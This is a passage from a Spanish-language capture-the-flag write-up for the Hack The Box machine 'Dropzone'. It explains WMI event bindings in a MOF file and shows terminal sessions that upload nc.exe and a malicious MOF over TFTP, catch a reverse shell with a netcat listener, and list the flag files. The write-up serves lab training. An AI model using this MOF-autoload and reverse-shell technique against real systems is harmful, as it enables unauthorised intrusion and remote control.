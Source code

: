7. <p style="font-size: 16px;">La instancia <span style="color: blue;">"__FilterToConsumerBinding"</span> se utiliza para establecer una relación entre un filtro de eventos y un <strong>consumidor</strong> de eventos específicos.</p>

8. <p style="font-size: 16px;">En la última línea se crea la instancia de la clase <span style="color: blue;">"MyClass7910"</span> llamada "$MyClass". La creación de esta instancia es lo que desencadenará el evento especificado en <span style="color: gray;">"__EventFilter"</span> y en respuesta el <strong>consumidor</strong> <span style="color: gray;">"ActiveScriptEventConsumer"</span> ejecutará el script dentro de la variable <span style="color: gray;">'ScriptText'</span>.</p>


Antes de cargar nuestro archivo MOF, vamos a transferir el "nc.exe" en el directorio "system32" y ponernos en escucha con 'nc'.
><p style="font-size: 16px;">NOTA: es importante establecer el modo binario en el servidor TFTP para que nuestro ejecutable no se corrompa.</p>

```
┌─[ot3ro@parrot]─[~/HTB/Dropzone]
└──╼ $tftp

tftp> connect 10.10.10.90
tftp> binary
tftp> status
Connected to 10.10.10.90.
Mode: octet Verbose: off Tracing: off
Rexmt-interval: 5 seconds, Max-timeout: 25 seconds
tftp> put nc.exe \\windows\system32\nc.exe
Sent 28160 bytes in 9.0 seconds

```
#### <span style="color: gray;">Carga del archivo MOF</span>
```
┌─[ot3ro@parrot]─[~/HTB/Dropzone/MOF]
└──╼ $tftp
tftp> connect 10.10.10.90
tftp> put rever.mof \Windows\system32\wbem\mof\rever.mof                         
Sent 1690 bytes in 0.9 seconds
tftp> 
```
```
┌─[ot3ro@parrot]─[~/HTB/Dropzone]
└──╼ $sudo nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.90] 1086
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

```
Logramos conseguir acceso al sistema.

```
C:\>cd \
C:\>tree /f /a
Folder PATH listing
Volume serial number is 00200064 7CF6:55F6
C:.
+---Administrator
|   +---Desktop
|   |   |   root.txt
|   |   |   
|   |   \---flags
|   |           2 for the price of 1!.txt
|   |           

```